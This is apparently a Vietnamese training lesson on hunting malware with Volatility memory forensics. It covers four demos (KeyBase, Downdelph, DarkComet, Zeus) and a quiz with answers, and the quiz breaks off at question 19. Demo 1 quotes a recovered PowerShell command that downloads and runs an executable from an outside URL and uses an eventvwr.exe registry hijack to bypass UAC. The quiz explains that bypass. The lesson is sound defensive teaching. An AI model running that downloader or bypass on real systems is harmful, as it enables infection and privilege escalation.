





# Bài 8.1: Hunting Malware Using Memory Forensics

## 1. Memory Forensics là gì và tại sao cần thiết?

**Memory Forensics** (Pháp chứng bộ nhớ) là kỹ thuật tìm kiếm và trích xuất các artifacts pháp chứng từ RAM của máy tính trong quá trình điều tra sự cố hoặc phân tích mã độc.

### Tại sao Memory Forensics quan trọng?

- RAM lưu trữ thông tin quý giá về **trạng thái runtime** của hệ thống: tiến trình đang chạy, kết nối mạng đang hoạt động, module đã tải, driver kernel...
- Một số loại mã độc **không ghi component nào xuống đĩa** (fileless malware) — chúng chỉ tồn tại trong bộ nhớ, nên nếu không phân tích RAM thì không thể phát hiện.
- Giúp trả lời các câu hỏi: ứng dụng nào đang chạy? Có kết nối mạng đáng ngờ nào không? Có DLL hoặc shellcode bị inject vào tiến trình hợp lệ không?

---

## 2. Quy trình Memory Forensics



### Bước 1 — Memory Acquisition

Quá trình sao chép toàn bộ nội dung RAM (volatile memory) sang bộ nhớ không mất dữ liệu (file trên đĩa).

=== "Máy vật lý"

    | Công cụ | Ghi chú |
    |---|---|
    | Comae Memory Toolkit (DumpIt) | Phát triển bởi Comae Technologies |
    | WinPmem | Một phần của Rekall Framework |
    | Surge Collect | Phát triển bởi Volexity |
    | Belkasoft RAM Capturer | Miễn phí |
    | FTK Imager | Phát triển bởi AccessData |

=== "Máy ảo (VM)"

    Đơn giản hơn: chỉ cần **suspend VM**, file `.vmem` sẽ là memory image.

### Bước 2 — Memory Analysis

Sử dụng framework như **Volatility** để phân tích file dump.

---

## 3. Volatility Framework

**Volatility** là framework mã nguồn mở, viết bằng Python, chuyên dùng để phân tích memory forensics.

!!! info "Đặc điểm"
    - Chạy được trên Windows, macOS, Linux
    - Hỗ trợ phân tích memory từ Windows 32-bit và 64-bit, macOS, Linux
    - Cấu thành từ nhiều **plugin** để trích xuất các loại thông tin khác nhau

### Cú pháp cơ bản

```bash
python vol.py -f <mem_image> --profile=<profile> <plugin> [ARGS]
```

### Xác định Profile

Profile xác định phiên bản và kiến trúc của hệ điều hành — cần thiết để Volatility phân tích đúng cấu trúc dữ liệu trong RAM.

```bash
# Cách 1
python vol.py -f mem_image imageinfo

# Cách 2
python vol.py -f mem_image kdbgscan
```

### Liệt kê tiến trình đang chạy

```bash
python vol.py -f mem_image.raw --profile=Win7SP1x86 pslist
```

Kết quả trả về: Offset, tên tiến trình, PID, PPID, số thread, số handle, thời gian khởi chạy.

---

## 4. Demo 1 — Phân tích mã độc KeyBase

### Kịch bản

> Một người dùng trong tổ chức nghi ngờ máy bị nhiễm sau khi mở file đính kèm trong email. Bạn là incident responder và đã thu thập được memory image `infected.raw` từ máy nghi ngờ.

---

### Bước 1 — Liệt kê tiến trình (pslist)

```bash
python vol.py -f infected.raw --profile=Win7SP1x86 pslist
```

!!! warning "Phát hiện bất thường"
    - `OUTLOOK.EXE` (PID 4068) — hợp lệ, user đang dùng Outlook
    - `doc6.exe` (PID 2308) — **đáng ngờ**, tên không phải tiến trình hệ thống

---

### Bước 2 — Xác định quan hệ tiến trình cha-con (pstree)

```bash
python vol.py -f infected.raw --profile=Win7SP1x86 pstree
```



!!! danger "Kết luận quan hệ tiến trình"
    Chuỗi `explorer → Outlook → Excel → cmd → doc6.exe` cho thấy **người dùng bị lây nhiễm qua email chứa file Excel độc hại**. Excel đã thực thi macro/shellcode, gọi cmd.exe để tải và chạy mã độc.

---

### Bước 3 — Kiểm tra argument của cmd.exe (cmdline)

```bash
python vol.py -f infected.raw --profile=Win7SP1x86 cmdline -p 4056
```

Kết quả cho thấy cmd.exe thực thi lệnh:

```powershell
powershell.exe -W hidden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile(
    'http://www.bemkm.undip.ac.id/two/yboss.exe',
    'C:\Users\test\AppData\Local\Temp\doc6.exe'
)
& reg add HKCU\Software\Classes\mscfile\shell\open\command /d C:\Users\test\AppData\Local\Temp\doc6.exe /f
& eventvwr.exe
& PING -n 15 127.0.0.1>nul
& C:\Users\test\AppData\Local\Temp\doc6.exe
```

!!! info "Phân tích chi tiết lệnh trên"
    1. **PowerShell ẩn** (`-W hidden -nop -ep bypass`): tải file mã độc từ URL về `Temp\doc6.exe`
    2. **Registry hijack**: thêm entry vào `HKCU\Software\Classes\mscfile\shell\open\command` trỏ đến `doc6.exe`
    3. **Gọi `eventvwr.exe`**: kỹ thuật **UAC Bypass** — `eventvwr.exe` đọc registry key trên và thực thi `doc6.exe` với **high integrity level** (quyền cao) mà **không hiện UAC prompt**
    4. **PING delay**: dùng PING để trì hoãn ~15 giây trước khi chạy mã độc

---

### Bước 4 — Xác định đường dẫn mã độc

```bash
python vol.py -f infected.raw --profile=Win7SP1x86 cmdline -p 2308
```

```
doc6.exe pid: 2308
Command Line: C:\Users\test\AppData\Local\Temp\doc6.exe
```

Mã độc chạy từ đúng nơi PowerShell đã tải về — thư mục `%TEMP%`.

---

### Bước 5 — Dump tiến trình mã độc để phân tích

```bash
python vol.py -f infected.raw --profile=Win7SP1x86 procdump -p 2308 -D dump/
```

Sau khi dump, quét với VirusTotal xác nhận đây là **Trojan/Keylogger** (KeyBase malware), được phát hiện bởi Kaspersky là `Trojan.Win32.Agent`, DrWeb là `Trojan.PWS.Stealer`.

---

## 5. Demo 2 — Phân tích mã độc Downdelph

### Kịch bản

> Thiết bị bảo mật cảnh báo có kết nối callback từ `192.168.1.70` đến C2 IP `104.171.117.216` trên cổng 80. Memory image thu được là `downdelph.vmem`.

---

### Bước 1 — Liệt kê kết nối mạng (netscan)

```bash
python vol.py -f downdelph.vmem --profile=Win10x86_17134 netscan
```

!!! warning "Phát hiện"
    Có một kết nối TCP trạng thái **CLOSED** từ `192.168.1.70:49751` đến `104.171.117.216:80`, thuộc về tiến trình `svchost.exe` (PID 1608). Kết nối đã đóng nhưng tiến trình vẫn còn — cần điều tra tiếp.

---

### Bước 2 — Tìm pattern IP trong bộ nhớ (yarascan)

```bash
python vol.py -f downdelph.vmem --profile=Win10x86_17134 yarascan "104.171.117.216"
```

!!! danger "Phát hiện"
    IP `104.171.117.216` xuất hiện **nhiều lần** trong bộ nhớ của tiến trình `rundll32.exe` (PID 5832), kèm theo URL `http://104.171.117.216/search.php`. Đây là dấu hiệu rõ ràng rằng `rundll32.exe` chính là tiến trình thực hiện kết nối C2.

---

### Bước 3 — Liệt kê DLL đã tải (dlllist)

```bash
python vol.py -f downdelph.vmem --profile=Win10x86_17134 dlllist -p 5832
```

!!! danger "Phát hiện DLL độc hại"
    `rundll32.exe` (PID 5832) đã tải DLL `apisvcd.dll` từ đường dẫn:
    ```
    C:\Users\myhost\AppData\Roaming\apisvcd.dll
    ```
    Đây là DLL bất thường — không thuộc System32, nằm trong thư mục AppData\Roaming.

---

### Bước 4 — Dump DLL và xác minh

```bash
python vol.py -f downdelph.vmem --profile=Win10x86_17134 dlldump -p 5832 -b 0x00400000 -D dump/
```

VirusTotal xác nhận đây là **Downdelph malware** — được nhận dạng là `Win32/Sednit` (Fancy Bear/APT28 toolset) bởi ESET-NOD32, Kaspersky nhận dạng là `HEUR:Trojan.Win32.Delphocygen`.

---

### Bước 5 — Ai đã gọi rundll32.exe?

```bash
python vol.py -f downdelph.vmem --profile=Win10x86_17134 pstree
```



!!! info "Phân tích"
    - `d.exe` (PID 1308) là tiến trình khởi chạy `rundll32.exe` với DLL độc hại
    - `d.exe` có **Threads = 0** → tiến trình đã **tự kết thúc** sau khi inject
    - Đây là kỹ thuật phổ biến: launcher tự xóa/kết thúc sau khi khởi động payload để tránh bị phát hiện

---

## 6. Demo 3 — Phân tích Darkcomet RAT

### Kịch bản

> Thiết bị bảo mật cảnh báo kết nối từ `192.168.1.60` đến C2 domain (resolve về `192.168.1.100`) trên cổng 1604. Memory image là `dc.vmem`.

---

### Bước 1 — Liệt kê kết nối mạng

```bash
python vol.py -f dc.vmem --profile=Win7SP1x86 netscan
```

!!! danger "Phát hiện bất thường"
    Tiến trình `winlogon.exe` (PID 1516) đang có kết nối **ESTABLISHED** đến `192.168.1.100:1604`.
    
    Đây là **bất thường nghiêm trọng** — `winlogon.exe` là tiến trình xác thực đăng nhập Windows, **không bao giờ** cần kết nối ra ngoài.

---

### Bước 2 — Phân tích quan hệ tiến trình

```bash
python vol.py -f dc.vmem --profile=Win7SP1x86 pstree
```



!!! warning "Bất thường về tiến trình cha-con"
    `winlogon.exe` (PID 460) hợp lệ lại sinh ra một `winlogon.exe` khác (PID 1516). Trên Windows, `winlogon.exe` không sinh tiến trình con là chính nó.

---

### Bước 3 — So sánh đường dẫn tiến trình (dlllist)

```bash
# Tiến trình hợp lệ
python vol.py -f dc.vmem --profile=Win7SP1x86 dlllist -p 460
# Command Line: winlogon.exe
# Path: C:\Windows\system32\winlogon.exe

# Tiến trình độc hại
python vol.py -f dc.vmem --profile=Win7SP1x86 dlllist -p 1516
# Command Line: C:\system32\winlogon.exe
# Path: C:\system32\winlogon.exe
```

!!! danger "Kết luận"
    | | PID 460 (hợp lệ) | PID 1516 (độc hại) |
    |---|---|---|
    | Đường dẫn | `C:\Windows\system32\` | `C:\system32\` |
    | Bất thường | Không | **Có** — thiếu `Windows\` |
    
    Đây là kỹ thuật **masquerading**: đặt tên file trùng với tiến trình hệ thống nhưng chạy từ đường dẫn khác.

---

### Bước 4 — Kiểm tra Registry persistence

```bash
python vol.py -f dc.vmem --profile=Win7SP1x86 dumpregistry -D dump/
strings -el dump/ | grep -i "c:\\system32\\winlogon.exe"
```

Tìm thấy entry trong hai hive:

=== "SOFTWARE hive"

    ```
    Key: HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    Value: Userinit
    Data: C:\Windows\system32\userinit.exe, C:\system32\winlogon.exe
    ```
    
    Mã độc thêm chính nó vào giá trị `Userinit` của Winlogon → mỗi lần Windows đăng nhập, `winlogon.exe` hợp lệ sẽ gọi cả `userinit.exe` lẫn mã độc.

=== "NTUSER.DAT hive (HKCU)"

    ```
    Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    Value: winlogon
    Data: C:\system32\winlogon.exe
    ```
    
    Persistence qua Run key — chạy mỗi lần user đăng nhập.

---

### Bước 5 — Phát hiện Process Injection vào explorer.exe

```bash
# Kiểm tra handle mà PID 1516 đang giữ
python vol.py -f dc.vmem --profile=Win7SP1x86 handles -p 1516 -t Process
```

Kết quả: PID 1516 giữ handle đến `explorer.exe` (PID 1504) với quyền `0x1f1fff` (full access).

```bash
# Tìm vùng nhớ bất thường trong explorer.exe
python vol.py -f dc.vmem --profile=Win7SP1x86 malfind -p 1504
```

!!! danger "Phát hiện injection"
    Vùng nhớ `0x4a800000` trong `explorer.exe` có:
    - Permission: `PAGE_EXECUTE_READWRITE` (bất thường — vừa ghi được, vừa thực thi được)
    - Header bắt đầu bằng `MZ` → đây là **PE executable** đã bị inject
    - Flag `PrivateMemory = 1` → không được map từ file trên đĩa

```bash
# Dump vùng nhớ đó
python vol.py -f dc.vmem --profile=Win7SP1x86 vaddump -b 0x4a80000 -D dump/
```

VirusTotal xác nhận: **Darkcomet RAT** (`Backdoor.Win32.DarkKomet` theo Kaspersky).

---

## 7. Demo 4 — Zeus Bot (Code Injection & API Hooking)

### Code Injection là gì?

**Code Injection** là kỹ thuật mã độc **inject code của mình vào vùng nhớ của một tiến trình hợp lệ** rồi thực thi code đó trong ngữ cảnh của tiến trình đó.



!!! info "Mục đích của Code Injection"
    - **Ẩn mình**: mã độc chạy trong ngữ cảnh tiến trình hợp lệ (`explorer.exe`, `svchost.exe`...) khiến khó phát hiện
    - **Bypass security**: một số giải pháp bảo mật tin tưởng tiến trình hệ thống
    - **Truy cập dữ liệu**: inject vào trình duyệt để đọc mật khẩu, cookie...

---

### Zeus Bot — Phát hiện Injection

```bash
python vol.py -f zeus.vmem --profile=Win10x86_17134 malfind -p 3872
```

!!! danger "Phát hiện"
    Vùng nhớ `0x6f10000` trong `explorer.exe` (PID 3872):
    - Bắt đầu bằng `MZ` → PE file
    - Permission: `PAGE_EXECUTE_READWRITE`
    - Đây là **executable bị inject** bởi Zeus bot

---

### API Hooking

**API Hooking** là kỹ thuật mã độc **chèn lệnh nhảy (JMP)** vào đầu hàm API hệ thống để chuyển hướng luồng thực thi đến code của mình trước khi hàm gốc chạy.

```bash
python vol.py -f zeus.vmem --profile=Win10x86_17134 apihooks -p 3872
```

```
Hook mode: Usermode
Hook type: Inline/Trampoline
Process: 3872 (explorer.exe)
Victim module: WININET.dll
Function: WININET.dll!HttpSendRequestA at 0x66de32e0
Hook address: 0x6f1ec48
Hooking module: <unknown>

Disassembly:
0x66de32e0  JMP 0x6f1ec48      ; <-- lệnh JMP được inject
0x66de32e5  SUB ESP, 0x3c
0x66de32e8  LEA EAX, [EBP-0x3c]
0x66de32eb  PUSH ESI
```

!!! info "Giải thích API Hook của Zeus"
    - Zeus hook `HttpSendRequestA` trong `WININET.dll`
    - Mỗi lần trình duyệt/ứng dụng gọi `HttpSendRequestA` để gửi HTTP request, luồng thực thi sẽ nhảy đến `0x6f1ec48` (code của Zeus trong vùng inject)
    - Zeus có thể đọc/sửa nội dung request (đặc biệt là form data chứa username/password) **trước** khi gửi đi — đây là kỹ thuật **Man-in-the-Browser**

---

## 8. Tổng kết & Bài học

!!! success "Các kỹ thuật tấn công phổ biến"
    - **Persistence**: Registry Run key, Winlogon Userinit key
    - **UAC Bypass**: Registry hijack kết hợp `eventvwr.exe`
    - **Code Injection**: Inject PE/shellcode vào tiến trình hợp lệ
    - **DLL Hijacking**: Load DLL độc hại qua `rundll32.exe`
    - **API Hooking**: Hook hàm API để đánh cắp dữ liệu (Man-in-the-Browser)
    - **Masquerading**: Đặt tên tiến trình giống tiến trình hệ thống, chạy từ đường dẫn khác
    - **Process termination sau injection**: Launcher tự kết thúc để che dấu vết

!!! tip "Lợi ích của Memory Forensics trong IR/Malware Analysis"
    - Phát hiện **fileless malware** không để lại dấu vết trên đĩa
    - Tái hiện **chuỗi lây nhiễm** qua quan hệ tiến trình cha-con
    - Phát hiện **injection** và **hooking** trong RAM
    - Thu thập **IoC** (Indicators of Compromise) như C2 IP, URL, đường dẫn file

---

## Câu hỏi trắc nghiệm

**Câu 1.** Memory Forensics chủ yếu liên quan đến việc phân tích loại dữ liệu nào?

- A. Dữ liệu trên ổ cứng
- B. Dữ liệu trong RAM
- C. Dữ liệu trong log file
- D. Dữ liệu trong registry

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Memory Forensics là kỹ thuật tìm kiếm và trích xuất artifacts pháp chứng từ RAM (bộ nhớ tạm) của máy tính.

---

**Câu 2.** Tại sao Memory Forensics đặc biệt quan trọng đối với "fileless malware"?

- A. Vì fileless malware chạy rất chậm nên dễ phát hiện trong RAM
- B. Vì fileless malware không ghi component xuống đĩa, chỉ tồn tại trong bộ nhớ
- C. Vì fileless malware mã hóa toàn bộ ổ cứng
- D. Vì fileless malware luôn làm tắt các công cụ AV

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Fileless malware không để lại file trên đĩa, nên các công cụ quét file truyền thống không phát hiện được. Memory Forensics là cách duy nhất để tìm ra chúng.

---

**Câu 3.** Khi sử dụng Volatility, lệnh nào dùng để xác định profile của memory image?

- A. `pslist`
- B. `pstree`
- C. `imageinfo`
- D. `netscan`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `imageinfo` (hoặc `kdbgscan`) được dùng để xác định profile — thông tin về phiên bản và kiến trúc hệ điều hành, cần thiết để Volatility phân tích đúng cấu trúc dữ liệu trong RAM.

---

**Câu 4.** Plugin `pstree` của Volatility khác `pslist` ở điểm nào?

- A. `pstree` liệt kê tiến trình nhanh hơn
- B. `pstree` hiển thị quan hệ cha-con giữa các tiến trình theo dạng cây
- C. `pstree` chỉ hiển thị tiến trình của kernel
- D. `pstree` liệt kê các tiến trình đã kết thúc

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `pstree` hiển thị tiến trình theo dạng cây phân cấp cha-con, giúp điều tra viên nhận ra chuỗi tiến trình bất thường như trong Demo 1: `Outlook → Excel → cmd → doc6.exe`.

---

**Câu 5.** Trong Demo 1 (KeyBase), chuỗi tiến trình cha-con nào cho thấy vector lây nhiễm?

- A. explorer.exe → cmd.exe → doc6.exe
- B. explorer.exe → OUTLOOK.EXE → EXCEL.EXE → cmd.exe → doc6.exe
- C. svchost.exe → OUTLOOK.EXE → doc6.exe
- D. winlogon.exe → OUTLOOK.EXE → doc6.exe

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Chuỗi này chứng minh người dùng nhận email qua Outlook, mở file Excel đính kèm (độc hại), Excel thực thi macro gọi cmd.exe để tải và chạy doc6.exe.

---

**Câu 6.** Trong Demo 1, PowerShell được gọi với tham số `-ep bypass`. Tham số này có tác dụng gì?

- A. Tắt tường lửa Windows
- B. Bỏ qua chính sách thực thi script (Execution Policy)
- C. Chạy PowerShell với quyền SYSTEM
- D. Mã hóa lệnh PowerShell

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `-ep bypass` (ExecutionPolicy bypass) cho phép chạy script PowerShell mà không bị chặn bởi chính sách thực thi. Thường kết hợp với `-nop` (NoProfile) và `-W hidden` (cửa sổ ẩn) để tránh bị phát hiện.

---

**Câu 7.** Kỹ thuật UAC Bypass sử dụng `eventvwr.exe` trong Demo 1 hoạt động như thế nào?

- A. `eventvwr.exe` khai thác lỗ hổng buffer overflow
- B. `eventvwr.exe` đọc registry key `HKCU\Software\Classes\mscfile\shell\open\command` và thực thi giá trị đó với high integrity mà không hiện UAC prompt
- C. `eventvwr.exe` tắt UAC vĩnh viễn
- D. `eventvwr.exe` inject code vào `lsass.exe`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Đây là kỹ thuật UAC bypass kinh điển: `eventvwr.exe` tự động nâng quyền (auto-elevate) và đọc registry key `mscfile` do người dùng kiểm soát (HKCU). Mã độc ghi đường dẫn của mình vào key đó, khi `eventvwr.exe` chạy nó sẽ thực thi mã độc với quyền cao mà không cần xác nhận UAC.

---

**Câu 8.** Plugin nào của Volatility dùng để xem argument dòng lệnh của tiến trình?

- A. `pslist`
- B. `cmdline`
- C. `dlllist`
- D. `handles`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `cmdline` hiển thị command line đầy đủ của mỗi tiến trình, rất hữu ích để phát hiện các lệnh PowerShell ẩn, tham số đáng ngờ, đường dẫn bất thường.

---

**Câu 9.** Trong Demo 2 (Downdelph), plugin nào được dùng để tìm IP của C2 server trong bộ nhớ tiến trình?

- A. `netscan`
- B. `dlllist`
- C. `yarascan`
- D. `malfind`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `yarascan` cho phép tìm kiếm pattern (chuỗi, regex, YARA rule) trong bộ nhớ của tiến trình. Trong Demo 2, IP `104.171.117.216` được tìm thấy nhiều lần trong bộ nhớ của `rundll32.exe`.

---

**Câu 10.** Tại sao `rundll32.exe` bị nghi ngờ trong Demo 2 (Downdelph)?

- A. Vì `rundll32.exe` đang chạy từ thư mục `%TEMP%`
- B. Vì bộ nhớ của `rundll32.exe` chứa IP của C2 và URL `/search.php`, và nó load DLL `apisvcd.dll` từ `AppData\Roaming`
- C. Vì `rundll32.exe` có quá nhiều thread
- D. Vì `rundll32.exe` được khởi chạy bởi `explorer.exe`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Hai dấu hiệu bất thường: (1) bộ nhớ chứa C2 IP và URL, (2) load DLL từ `AppData\Roaming` — đây không phải nơi chứa DLL hệ thống. Tên DLL `apisvcd.dll` cũng không tồn tại trong Windows chuẩn.

---

**Câu 11.** Plugin `dlllist` của Volatility dùng để làm gì?

- A. Liệt kê tất cả DLL trong thư mục System32
- B. Liệt kê các DLL đã được load vào bộ nhớ của tiến trình cụ thể
- C. Kiểm tra DLL có bị hook không
- D. Dump tất cả DLL ra đĩa

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `dlllist` liệt kê tất cả DLL đang được load trong address space của tiến trình, bao gồm đường dẫn đầy đủ, base address, kích thước — rất quan trọng để phát hiện DLL độc hại.

---

**Câu 12.** Trong Demo 2, tại sao `d.exe` (PID 1308) đáng ngờ mặc dù đã kết thúc?

- A. Vì tên file quá ngắn
- B. Vì nó có 0 threads — tiến trình đã kết thúc sau khi khởi chạy `rundll32.exe` với DLL độc hại, đây là kỹ thuật tự xóa dấu vết
- C. Vì nó được khởi chạy bởi `explorer.exe`
- D. Vì nó không có command line

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Số threads = 0 nghĩa là tiến trình đã kết thúc nhưng entry vẫn còn trong memory. Đây là kỹ thuật phổ biến: launcher (dropper) khởi động payload rồi tự terminate để giảm diện tích bị phát hiện.

---

**Câu 13.** Trong Demo 3 (Darkcomet), tại sao `winlogon.exe` (PID 1516) kết nối đến C2 là bất thường?

- A. Vì `winlogon.exe` không được phép chạy trên cổng 1604
- B. Vì `winlogon.exe` là tiến trình xác thực đăng nhập Windows, không có lý do hợp lệ để kết nối ra ngoài mạng
- C. Vì `winlogon.exe` chỉ được phép kết nối đến domain controller
- D. Vì cổng 1604 là cổng dành riêng cho hệ thống

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `winlogon.exe` quản lý quá trình đăng nhập/đăng xuất Windows. Nó không cần và không bao giờ tạo kết nối TCP ra ngoài trong hoạt động bình thường — đây là dấu hiệu rõ ràng của masquerading.

---

**Câu 14.** Kỹ thuật nào mã độc Darkcomet sử dụng để giả mạo tiến trình hệ thống?

- A. Process hollowing
- B. Masquerading — đặt tên file giống tiến trình hệ thống nhưng chạy từ đường dẫn khác (`C:\system32\` thay vì `C:\Windows\system32\`)
- C. DLL sideloading
- D. Atom bombing

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Masquerading là kỹ thuật đặt tên mã độc trùng với tên tiến trình hệ thống hợp lệ. Trong Demo 3, mã độc đặt tên là `winlogon.exe` nhưng chạy từ `C:\system32\` (không có `Windows\`) — phân biệt được khi dùng `dlllist` để xem đường dẫn thực.

---

**Câu 15.** Trong Demo 3, mã độc thêm persistence bằng cách nào?

- A. Tạo scheduled task
- B. Cài service mới
- C. Thêm vào giá trị `Userinit` trong registry key Winlogon và thêm vào Run key trong HKCU
- D. Sửa file `hosts`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Hai điểm persistence: (1) `HKLM\...\Winlogon\Userinit` — thêm `C:\system32\winlogon.exe` vào giá trị này, khiến tiến trình winlogon hợp lệ gọi mã độc sau mỗi lần đăng nhập; (2) `HKCU\...\Run\winlogon` — chạy khi user đăng nhập.

---

**Câu 16.** Plugin `malfind` của Volatility phát hiện điều gì?

- A. File mã độc trên đĩa
- B. Vùng nhớ trong tiến trình có permission `PAGE_EXECUTE_READWRITE` và dấu hiệu PE header (MZ) — chỉ dấu của code injection
- C. Kết nối mạng đến IP độc hại
- D. Registry key độc hại

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `malfind` tìm các vùng nhớ có permission bất thường (vừa có thể ghi, vừa thực thi được — `PAGE_EXECUTE_READWRITE`) kết hợp với dấu hiệu PE header. Đây là chỉ dấu mạnh của code injection vì vùng nhớ thông thường không cần cả hai quyền này cùng lúc.

---

**Câu 17.** Trong Demo 3, `winlogon.exe` (PID 1516) giữ handle đến `explorer.exe` với quyền `0x1f1fff`. Điều này có ý nghĩa gì?

- A. Chỉ là hoạt động bình thường của hệ thống
- B. PID 1516 có toàn quyền truy cập vào `explorer.exe`, chuẩn bị inject code
- C. PID 1516 đang monitor `explorer.exe` để debug
- D. PID 1516 cần đọc thông tin từ `explorer.exe`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `PROCESS_ALL_ACCESS` (`0x1f1fff`) là mức quyền cao nhất đối với một tiến trình — bao gồm quyền đọc/ghi bộ nhớ và tạo remote thread. Mã độc cần những quyền này để thực hiện code injection. Kết hợp với phát hiện `malfind` về vùng nhớ MZ trong `explorer.exe`, rõ ràng đây là injection.

---

**Câu 18.** Plugin `handles` của Volatility dùng để làm gì?

- A. Liệt kê các file đang bị mở bởi tiến trình
- B. Liệt kê tất cả kernel handle mà tiến trình đang giữ (file, registry key, tiến trình khác, thread...)
- C. Phát hiện hook trong kernel
- D. Hiển thị handle count của tiến trình

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `handles` liệt kê toàn bộ handle table của tiến trình. Điều tra viên dùng nó để xem tiến trình đang tương tác với tài nguyên nào — tiến trình khác (dấu hiệu injection), registry key (dấu hiệu persistence), mutex (fingerprint của mã độc)...

---

**Câu 19.** Code Injection mang lại lợi ích gì cho mã độc?

- A. Tăng tốc độ xử lý của mã độc
- B. Mã độc ẩn mình trong tiến trình hợp lệ, qua mặt nhiều giải pháp bảo mật tin tưởng tiến trình đó
- C. Giúp mã độc vượt qua tường lửa mạng
- D. Giúp mã độc mã hóa dữ liệu nhanh hơn

